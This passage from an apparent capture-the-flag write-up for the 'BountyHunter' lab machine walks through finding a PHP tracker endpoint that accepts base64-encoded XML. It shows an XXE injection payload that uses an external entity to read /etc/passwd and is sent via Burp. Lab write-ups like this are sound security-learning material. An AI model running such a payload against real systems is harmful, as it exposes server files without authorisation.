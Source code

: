 We see a strange url path, "/tracker_diRbPr00f314.php", and it seems to be sending a base64 encoded payload in the data parameter of the POST request. That value decoded is:
```text
<?xml  version="1.0" encoding="ISO-8859-1"?>
		<bugreport>
		<title>title</title>
		<cwe>cwe</cwe>
		<cvss>cvss</cvss>
		<reward>bounty</reward>
		</bugreport>
```

## Foothold

So it seems the POST request takes our data and submits it to the backend as XML. Maybe we're looking at some XML / XXE injection? To test the theory, let's try the XXE injection by changing the data value to this:
```text
data=<?xml  version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE data [
    <!ENTITY payload SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>title</title>
		<cwe>cwe</cwe>
		<cvss>cvss</cvss>
		<reward>&payload;</reward>
		</bugreport>
```

We've added an entity to retrieve /etc/passwd and it should render the contents of that file in the reward tags. We base64 encode, then URL encode the entire payload, and send it through burp:
![xxe-inject-success.png](/assets/images/posts/htb-bountyhunter/xxe-inject-success.png)
